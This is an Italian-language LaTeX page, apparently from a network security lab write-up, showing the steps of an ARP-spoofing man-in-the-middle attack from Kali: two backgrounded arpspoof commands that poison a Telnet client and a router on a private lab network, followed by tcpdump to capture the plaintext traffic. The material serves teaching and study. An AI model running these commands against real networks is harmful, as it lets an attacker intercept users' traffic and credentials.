 \documentclass[14pt]{extreport}
\begin{document}
\vspace{5pt}

Per poter continuare a usare la console di \textit{Kali} mentre in background vengono continuamente sparati pacchetti ARP reply si utilizzerà una versione un po' modificata del comando visto precedentemente.

\vspace{5pt}

{
\small
\begin{tcolorbox}

\begin{verbatim}

$ arpspoof -i eth0 -t 192.168.2.4 192.168.2.2 2> /dev/null &
  
\end{verbatim}

\end{tcolorbox}
}

\vspace{5pt}


A questo punto per completare il MITM c'è bisogno che anche il \textit{Router} creda che io sia il \textit{Client Telnet}. Non c'è nulla di più da fare che rendere speculare il comando visto precedentemente:



\vspace{5pt}

{
\small
\begin{tcolorbox}

\begin{verbatim}

$ arpspoof -i eth0 -t 192.168.2.2 192.168.2.4 2> /dev/null &
  
\end{verbatim}

\end{tcolorbox}
}

\vspace{5pt}

A questo punto iniziamo la fase di sniffing da \textit{Kali}, usando il comando tcpdump.

\vspace{5pt}

{
\small
\begin{tcolorbox}

\begin{verbatim}

$ tcpdump -i eth0 -A -n tcp -S
  
\end{verbatim}

\end{tcolorbox}
}
\end{document}
